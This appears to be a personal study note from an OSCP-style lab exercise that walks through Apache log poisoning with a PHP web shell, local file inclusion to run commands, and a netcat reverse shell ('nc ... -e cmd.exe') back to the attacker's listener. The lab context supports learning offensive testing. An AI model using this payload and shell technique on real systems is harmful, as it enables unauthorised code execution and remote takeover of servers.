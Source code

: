 9.4.4.5

# 9.4.4.5
## 9.4.4.5.1. Obtain code execution through the use of the LFI attack.
Clear the log files
```plaintext
c:\Users\admin\Documents>powershell -ExecutionPolicy Bypass -File clear_logs.ps1 
```
![53f748ff1b59ba5f617fd41463031bb0.png](:/8baa6880892d40fdba0dd2d73643c577)

Send a PHP payload. It will say it is a bad request, but was it? Check the Windows logs.
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/9_webApplicationAttacks$ sudo nc -nv 192.168.214.10 80
[sudo] password for kali: 
(UNKNOWN) [192.168.214.10] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
HTTP/1.1 400 Bad Request
Date: Sun, 20 Sep 2020 21:58:39 GMT
Server: Apache/2.4.33 (Win32) OpenSSL/1.1.0g PHP/7.2.4
Vary: accept-language,accept-charset
Accept-Ranges: bytes
Connection: close
Content-Type: text/html; charset=utf-8
Content-Language: en
Expires: Sun, 20 Sep 2020 21:58:39 GMT
...
```

Check the Windows machine for c:\xampp\apache\logs\access.log
![9945e1f48b5c48e633e221fd0d1f0bee.png](:/3cb50644ecfd4a8c93f2380f9d621d5f)

Attempt LFI execution
http://192.168.214.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
![61fd6f82910144f188c0ab6dce28a049.png](:/d536af41efc54c0886d5d1455caad998)


## 9.4.4.5.2. Use the code execution to obtain a full shell.
Clear the log file
```plaintext
c:\Users\admin\Documents>powershell -ExecutionPolicy Bypass -File clear_logs.ps1 
```

Open a netcat listener on Kali port 80 and type in the malicious php code
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/9_webApplicationAttacks$ sudo nc -nv 192.168.214.10 80
(UNKNOWN) [192.168.214.10] 80 (http) open
<?php echo '<pre' . shell_exec($_GET['cmd']) . '</pre>';?>
HTTP/1.1 400 Bad Request
```

Check the Windows log file (if you have access to the machine) to verify the PHP code is on the target.
```plaintext
c:\Users\admin\Documents>type c:\xampp\apache\logs\access.log                                                           192.168.119.214 - - [20/Sep/2020:22:47:42 -0700] "<?php echo '<pre' . shell_exec($_GET['cmd']) . '</pre>';?>\n" 400 980 "-" "-"   
```

Open another netcat listener on Kali, port 1337 
```plaintext
kali@kali:~$ sudo nc -lvnp 1337
listening on [any] 1337 ...
```

Send a bind shell through LFI. In this case, we use netcat. Here is the link to input into the browser.
`192.168.214.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=nc -nv 192.168.119.214 1337 -e cmd.exe`
![9b96abe67859f9edf6282cd9aa60b124.png](:/356d3e28fef34a31a87f8ee294d33cfc)

Notice we now have a shell
![0e4a06f063d31e437a3faa47d445b4bf.png](:/b598d8dfdc784990bc2ace762db26bf4)



id: cb4f9a1bb8f14364944b2419e34a8271
parent_id: 33a465e6698d4fac9c4f8149b7813316
created_time: 2020-09-20T13:38:51.390Z
updated_time: 2020-09-21T09:34:13.869Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-09-20T13:38:51.390Z
user_updated_time: 2020-09-21T09:34:13.869Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1